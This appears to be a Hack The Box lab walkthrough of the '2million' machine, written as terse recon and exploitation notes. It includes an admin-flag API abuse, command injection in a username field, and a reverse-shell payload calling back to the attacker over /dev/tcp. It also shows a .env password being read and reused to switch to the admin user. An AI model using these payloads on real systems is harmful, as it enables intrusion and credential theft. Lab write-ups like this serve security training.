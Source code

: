
### 1 - HOST RECON

nmap -A -T4 10.10.11.221     
Starting Nmap 7.92 ( https://nmap.org ) at 2023-06-11 01:02 -03
Nmap scan report for 10.10.11.221
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

sudo nmap -sC -sV  10.10.11.221
[sudo] password for r_deckard: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-06-11 01:27 -03
Nmap scan report for 2million.htb (10.10.11.221)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Hack The Box :: Penetration Testing Labs
|_http-trane-info: Problem with XML parsing of /evox/about
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

### 2 - WEB RECON

200      GET       80l      232w     3704c http://2million.htb/login
200      GET       94l      293w     4527c http://2million.htb/register
401      GET        0l        0w        0c http://2million.htb/api
401      GET        0l        0w        0c http://2million.htb/api/v1
302      GET        0l        0w        0c http://2million.htb/logout => http://2million.htb/
200      GET     1242l     3326w    64952c http://2million.htb/
302      GET        0l        0w        0c http://2million.htb/home => http://2million.htb/
200      GET       46l      152w     1674c http://2million.htb/404


### WEB FINDINGS

#### IN URLS FIND JS FILES TO VALIDATE INVITE

http://2million.htb/register
http://2million.htb/js/inviteapi.min.js

makeInviteCode();

Object { 0: 200, success: 1, data: {…}, hint: "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..." }

data: Object { data: "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr", enctype: "ROT13" }

data: "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr"

enctype: "ROT13"

### DECRYPT ROT13

In order to generate the invite code, make a POST request to /api/v1/invite/generate


### SEND REQUEST WITH CURL

curl -X POST http://2million.htb/api/v1/invite/generate

{"0":200,"success":1,"data":{"code":"VlZOUzctUjNUQVotS1pUQUEtWUM4Ukc=","format":"encoded"}}

### DECODED INVITE CODE

echo VlZOUzctUjNUQVotS1pUQUEtWUM4Ukc= | base64 -d
VVNS7-R3TAZ-KZTAA-YC8RG

### REGISTER/LOGIN

fatboy

fatboysec@mail.com

123456789

### IN USER ACCOUNT HAVE PAGE FOR GIVE ACCESS TO VPN

http://2million.htb/home/access

download file: http://2million.htb/api/v1/user/vpn/generate

(/api/v1/)

### ENUMERATE API

http://2million.htb/api/v1

{"v1":{"user":{
"GET":{
"\/api\/v1":"Route List",
"\/api\/v1\/invite\/how\/to\/generate":"Instructions on invite code generation",
"\/api\/v1\/invite\/generate":"Generate invite code",
"\/api\/v1\/invite\/verify":"Verify invite code",
"\/api\/v1\/user\/auth":"Check if user is authenticated",
"\/api\/v1\/user\/vpn\/generate":"Generate a new VPN configuration",
"\/api\/v1\/user\/vpn\/regenerate":"Regenerate VPN configuration",
"\/api\/v1\/user\/vpn\/download":"Download OVPN file"},
"POST":{
"\/api\/v1\/user\/register":"Register a new user",
"\/api\/v1\/user\/login":"Login with existing user"}},
"admin":{"GET":{
"\/api\/v1\/admin\/auth":"Check if user is admin"},
"POST":{"\/api\/v1\/admin\/vpn\/generate":"Generate VPN for specific user"},
"PUT":{"\/api\/v1\/admin\/settings\/update":"Update user settings"}}}}


### ENDPOINT MORE INTERESTING

http://2million.htb/api/v1/admin/settings/update

POST /api/v1/admin/settings/update
{
"email": "fatboysec@mail.com",
"is_admin": 1
}

POST /api/v1/admin/vpn/generate (return file for vpn)
{
"username": "fatboy"
}

### EXPLORATION ENDPOINT /api/v1/admin/vpn/generate


POST /api/v1/admin/vpn/generate
{
"username": "fatboy; id;"
}

### HAVE SHELL 

POST /api/v1/admin/vpn/generate
{
"username": "fatboy; bash -c 'sh -i >& /dev/tcp/10.10.14.96/1234 0>&1' ;"
}

### ON MACHINE

www-data@2million:~/html$ ls -lah 

drwxr-xr-x 10 root root 4.0K Jun 11 19:20 .
drwxr-xr-x  3 root root 4.0K Jun 11 16:17 ..
-rw-r--r--  1 root root   87 Jun  2 18:56 .env
-rw-r--r--  1 root root 1.3K Jun  2 16:15 Database.php
-rw-r--r--  1 root root 2.8K Jun  2 16:15 Router.php
drwxr-xr-x  5 root root 4.0K Jun 11 19:20 VPN
drwxr-xr-x  2 root root 4.0K Jun  6 10:22 assets
drwxr-xr-x  2 root root 4.0K Jun  6 10:22 controllers
drwxr-xr-x  5 root root 4.0K Jun  6 10:22 css
drwxr-xr-x  2 root root 4.0K Jun  6 10:22 fonts
drwxr-xr-x  2 root root 4.0K Jun  6 10:22 images
-rw-r--r--  1 root root 2.7K Jun  2 18:57 index.php
drwxr-xr-x  3 root root 4.0K Jun  6 10:22 js
drwxr-xr-x  2 root root 4.0K Jun  6 10:22 views

### FIND .env FILE

www-data@2million:~/html$ cat .env

cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123


### TRY PASS TO ADMIN

www-data@2million:~/html$ su admin
su admin
Password: SuperDuperPass123

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.


### HAVE PRIV ESC

admin@2million:~$ 
/home/admin

admin@2million:~$ cat user.txt
cat user.txt

95d3a4005e3aae479bb651ced88a1533 

o/
